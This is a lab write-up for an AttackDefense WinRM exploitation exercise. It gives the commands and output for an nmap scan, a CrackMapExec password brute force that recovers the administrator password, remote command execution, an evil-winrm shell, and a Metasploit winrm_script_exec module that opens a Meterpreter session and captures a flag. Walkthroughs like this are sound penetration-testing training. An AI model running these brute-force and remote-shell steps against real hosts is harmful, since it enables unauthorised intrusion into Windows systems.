 # 🔬WinRM

## Lab 1 <a href="#lab-1" id="lab-1"></a>

> 🔬 [WinRM: Exploitation with Metasploit](https://attackdefense.com/challengedetails?cid=2026)
>
> * Target IP: `10.0.21.86`
> * **WinRM** exploitation
> * Dictionaries to use:
>   * `/usr/share/metasploit-framework/data/wordlists/common_users.txt`
>   * `/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`

### Enumeration

```bash
nmap -sV -p 5985-5986 10.0.21.86
```

```bash
Starting Nmap 7.70 ( https://nmap.org ) at 2024-07-04 21:08 IST
Nmap scan report for 10.0.21.86
Host is up (0.0030s latency).

PORT     STATE  SERVICE VERSION
5985/tcp open   http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
5986/tcp closed wsmans
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.47 seconds
```

> Both WinRM port open

### CrackMapExec Brute-force <a href="#crackmapexec-brute-force" id="crackmapexec-brute-force"></a>

* Use [`crackmapexec`](https://www.kali.org/tools/crackmapexec/) tool to confirm WinRM is running on port `5985`
* Make sure to insert target protocol and target IP to perform the brute force

```bash
crackmapexec winrm 10.0.21.86 -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 
```

<figure><img src="../../../../../.gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>

> Credentials obtained `administrator:tinkerbell`

* Execute specific Windows commands

```bash
crackmapexec winrm 10.0.21.86 -u administrator -p tinkerbell -x "whoami"
crackmapexec winrm 10.0.21.86 -u administrator -p tinkerbell -x "systeminfo"
```

<figure><img src="../../../../../.gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>

### evil-WinRM Shell <a href="#evil-winrm-shell" id="evil-winrm-shell"></a>

* Get a command shell session using `evil-winrm` tool

```bash
evil-winrm.rb -u administrator -p 'tinkerbell' -i 10.0.21.86
```

<figure><img src="../../../../../.gitbook/assets/image (149).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (150).png" alt=""><figcaption></figcaption></figure>

### Meterpreter Session <a href="#meterpreter-session" id="meterpreter-session"></a>

```bash
msfconsole
msf5 > search winrm
```

<figure><img src="../../../../../.gitbook/assets/image (151).png" alt=""><figcaption></figcaption></figure>

```bash
msf5 > use exploit/windows/winrm/winrm_script_exec 
msf5 exploit(windows/winrm/winrm_script_exec) > set RHOSTS 10.0.21.86
msf5 exploit(windows/winrm/winrm_script_exec) > set FORCE_VBS true
msf5 exploit(windows/winrm/winrm_script_exec) > set PASSWORD tinkerbell
msf5 exploit(windows/winrm/winrm_script_exec) > set USERNAME administrator
msf5 exploit(windows/winrm/winrm_script_exec) > exploit
```

<figure><img src="../../../../../.gitbook/assets/image (152).png" alt=""><figcaption></figcaption></figure>

* Execute specific Windows commands to get flag

<figure><img src="../../../../../.gitbook/assets/image (153).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (154).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Flag: `3c716f95616eec677a7078f92657a230`
{% endhint %}





